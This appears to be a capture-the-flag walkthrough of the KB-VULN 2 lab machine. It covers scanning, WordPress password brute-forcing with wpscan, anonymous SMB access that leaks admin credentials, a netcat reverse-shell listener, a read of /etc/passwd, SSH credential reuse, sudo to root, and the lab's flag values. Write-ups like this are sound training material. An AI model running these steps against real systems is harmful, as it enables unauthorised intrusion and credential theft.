 ```yaml
---
title: "KB-VULN: 2 Writeup"
description: "KB-VULN 2 Walkthrough"
layout: post
categories: [CTF]
---
```


RECON: 
NMAP SCAN
{% highlight terminal %}
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
{% endhighlight %}

GOBUSTER OUTPUT

{% highlight terminal %}
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.107/wordpress/]
{% endhighlight %}
wpscan: 
{% highlight terminal %}
wpscan -U admin -P /usr/share/wordlists/rockyou.txt --url http://kb.vuln/wordpress/ 

{% endhighlight %}

SMB enumeration: 
{% highlight terminal %}
 smbmap -H 192.168.56.107
[+] Guest session   	IP: 192.168.56.107:445	Name: kb.vuln                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Anonymous                                         	READ ONLY	OPEN YOUR EYES!
	IPC$                                              	NO ACCESS	IPC Service (Samba Server 4.7.6-Ubuntu)
{% endhighlight %}
                                                                                         
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.107
Enter WORKGROUP\kali's password: 

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      OPEN YOUR EYES!
	IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available
{% endhighlight %}
                                                                                         
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.107/Anonymous
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 06:58:56 2020
  ..                                  D        0  Wed Sep 16 06:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 06:58:56 2020
{% endhighlight %}

There's a file inside the backup.zip archive called "remember_me.txt" which contains the
admin password for the WordPress installation: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN2]
└─$ cat remember_me.txt 
Username:admin
Password:MachineBoy141
{% endhighlight %}


Now we can upload/inject our reverse TCP shell code either via the plugins or via the 
theme editor section of the site. 


{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/KB-VULN]
└─$ nc -lp 6666                                                             2 ⨯
Linux kb-server 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:53:37 up 34 min,  0 users,  load average: 0.00, 0.75, 1.68
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
{% endhighlight %}


Checking the passwd file
{% highlight terminal %}
$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
kbadmin:x:1000:1000:MachineBoy:/home/kbadmin:/bin/bash
$ 
{% endhighlight %}

{% highlight terminal %}
www-data@kb-server:/var/www$ cd html
cd html
www-data@kb-server:/var/www/html$ ls -a
ls -a
.  ..  index.html  read_ME.txt	remember_me.txt  wordpress
www-data@kb-server:/var/www/html$ cat read_ME.txt
cat read_ME.txt
system administrator is kbadmin.
good luck ;)
www-data@kb-server:/var/www/html$
{% endhighlight %}

Let's try those creds with this new user over ssh

kbadmin:MachineBoy141

{% highlight terminal %}

kbadmin@kb-server:~$ cat user.txt 
03bf4d20dac5644c75e69e40bad48db0
kbadmin@kb-server:~$ cat note.txt 
use DOCKER!
kbadmin@kb-server:~$
{% endhighlight %}

The note is a red herring. 

{% highlight terminal %}
kbadmin@kb-server:~$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL
kbadmin@kb-server:~$ sudo -i
root@kb-server:~#
root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
{% endhighlight %}

